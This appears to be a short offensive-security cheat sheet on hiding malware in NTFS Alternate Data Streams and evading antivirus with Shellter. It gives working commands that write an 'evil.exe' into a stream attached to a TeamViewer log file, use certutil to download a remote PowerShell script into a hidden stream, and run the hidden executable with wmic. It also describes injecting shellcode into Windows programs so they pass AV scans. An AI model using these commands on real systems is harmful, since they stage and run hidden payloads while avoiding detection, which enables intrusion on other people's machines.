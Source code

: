 ### Alternate Data Streams:
- File on NTFS formatted drive has 2 streams:
  - Data stream: default stream - contains data
  - Resource stream: used for metadata
  - This is useful to hiding file
- Write to ADS
  -  `type C:\temp\evil.exe > "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:evil.exe" `
- Download directly into ADS
  -  `certutil.exe -urlcache -split -f https://raw.githubusercontent.com/Moriarty2016/git/master/test.ps1 c:\temp:ttt`
- Executing from ADS
  - `wmic process call create '"C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:evil.exe"'`
  - NOTE: full path
- There are many other methods to add and execute
  - https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f

### AV evasion with shellter:
- Shellter is a dynamic shellcode injection tool aka dynamic PE infector. It can be used in order to inject shellcode into native Windows applications (currently 32-bit apps only). The shellcode can be something yours or something generated through a framework, such as Metasploit. Shellter takes advantage of the original structure of the PE file and doesn’t apply any modification such as changing memory access permissions in sections (unless the user wants to), adding an extra section with RWE access, and whatever would look dodgy under an AV scan.
- Install (https://www.kali.org/tools/shellter/)
  




